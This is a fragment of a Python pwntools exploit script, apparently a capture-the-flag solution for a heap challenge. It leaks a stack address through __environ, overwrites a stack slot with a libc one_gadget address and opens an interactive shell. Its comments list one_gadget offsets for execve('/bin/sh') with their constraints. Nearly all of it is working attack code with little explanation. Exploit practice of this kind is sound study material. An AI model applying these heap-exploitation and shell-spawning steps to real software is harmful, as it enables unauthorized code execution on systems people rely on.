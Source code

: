 ```python
add(0xf8,payload)

#leak __environ
show(1)
stack_addr=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
log.info("stack: "+hex(stack_addr))



edit(2,p64(stack_addr-240))
edit(1,p64(libcbase+one_gadget[0]))

#debug()

p.recvuntil("(CMD)>>> ")
p.sendline('q')

p.interactive()

# 0x45226 execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   rax == NULL

# 0x4527a execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   [rsp+0x30] == NULL

# 0xf03a4 execve("/bin/sh", rsp+0x50, environ)
# constraints:
#   [rsp+0x50] == NULL

# 0xf1247 execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL

```
